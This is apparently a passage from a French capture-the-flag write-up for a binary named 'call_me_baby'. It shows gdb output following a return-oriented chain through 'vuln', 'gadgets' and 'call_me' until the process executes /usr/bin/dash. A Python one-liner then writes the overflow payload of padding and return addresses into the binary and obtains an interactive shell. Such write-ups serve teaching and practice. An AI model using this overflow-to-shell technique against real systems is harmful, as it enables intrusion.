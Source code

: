 ```gdb

breakpoint 2, 0x000000000040120a in vuln ()
(gdb) c
continuing.

breakpoint 4, 0x0000000000401166 in gadgets ()
(gdb) c
continuing.

breakpoint 5, 0x000000000040116b in gadgets ()
(gdb) c
continuing.

breakpoint 3, 0x000000000040118a in call_me ()
(gdb) c
continuing.
process 6806 is executing new program: /usr/bin/dash
error in re-setting breakpoint 1: no symbol table is loaded.  use the "file" command.
error in re-setting breakpoint 2: no symbol table is loaded.  use the "file" command.
error in re-setting breakpoint 3: no symbol table is loaded.  use the "file" command.
error in re-setting breakpoint 4: no symbol table is loaded.  use the "file" command.
error in re-setting breakpoint 5: no symbol table is loaded.  use the "file" command.
error in re-setting breakpoint 1: no symbol "vuln" in current context.
error in re-setting breakpoint 2: no symbol "vuln" in current context.
error in re-setting breakpoint 3: no symbol "call_me" in current context.
error in re-setting breakpoint 4: no symbol "gadgets" in current context.
error in re-setting breakpoint 5: no symbol "gadgets" in current context.
error in re-setting breakpoint 1: no symbol "vuln" in current context.
error in re-setting breakpoint 2: no symbol "vuln" in current context.
error in re-setting breakpoint 3: no symbol "call_me" in current context.
error in re-setting breakpoint 4: no symbol "gadgets" in current context.
error in re-setting breakpoint 5: no symbol "gadgets" in current context.
[thread debugging using libthread_db enabled]
using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
error in re-setting breakpoint 1: no symbol "vuln" in current context.
error in re-setting breakpoint 2: no symbol "vuln" in current context.
error in re-setting breakpoint 3: no symbol "call_me" in current context.
error in re-setting breakpoint 4: no symbol "gadgets" in current context.
error in re-setting breakpoint 5: no symbol "gadgets" in current context.
[inferior 1 (process 6806) exited normally]
```

On arrive bien au message de succès. Testons le payload directement sur l'executable :

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x62\x61\x62\x79"+b"\x00"*4+b"\x66\x11\x40\x00"+b"\x00"*4+b"\x8a\x11\x40\x00"+b"\x00"*4)' ; tee) | ./call_me_baby
Write your love letter: 
whoami
coucou
ls
README.md  call_me_baby  exploit.py
```
